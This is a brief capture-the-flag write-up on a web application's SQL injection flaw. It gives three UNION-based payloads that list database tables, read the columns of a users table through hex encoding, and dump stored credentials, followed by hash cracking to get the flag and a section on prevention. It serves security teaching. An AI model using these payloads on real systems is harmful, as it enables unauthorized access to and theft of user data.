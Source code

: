 # Vulnerability

Get all the tables name on the Database :
```
1 and 1=0 union select null,table_name from information_schema.tables limit 41,4
```

Get the fields available of the user table :
`0x7573657273` is basically `user` but since we can't use strings we put it in hex form
```
1 and 1=0 union select null,column_name from information_schema.columns where table_name=0x7573657273
```

Get the flag :
```
1 and 1=0 union select Commentaire,countersign from users limit 3,1
```

`5ff9d0165b4f92b14994e5c685cdce28` -> FortyTwo 
`echo -n "fortytwo" | shasum -a 256` -> got the flag

# Exploit

- Extract sensitive information, like Social Security numbers, or credit card details.
- Enumerate the authentication details of users registered on a website, so these logins can be used in attacks on other sites.
- Delete data or drop tables, corrupting the database, and making the website unusable.
- Inject further malicious code to be executed when users visit the site.

# Protection

- You should always use parameterized statements where available, they are your number one protection against SQL injection.
- Using ORM (object relationnal mapping) because they use parametrized statements even though they can let you construct the sql statement
- WARNING: if you find yourself writing SQL statements by concatenating strings, think very carefully about what you are doing!
- Escaping inputs: escape all special characters and still be careful (not all rely on abuse of characters)
- Sanitize input: Check that supplied fields like email addresses match a regular expression, ensure that numeric or alphanumeric fields do not contain symbol characters, reject (or strip) out whitespace and new line characters where they are not appropriate

# Source

https://www.hacksplaining.com/prevention/sql-injection
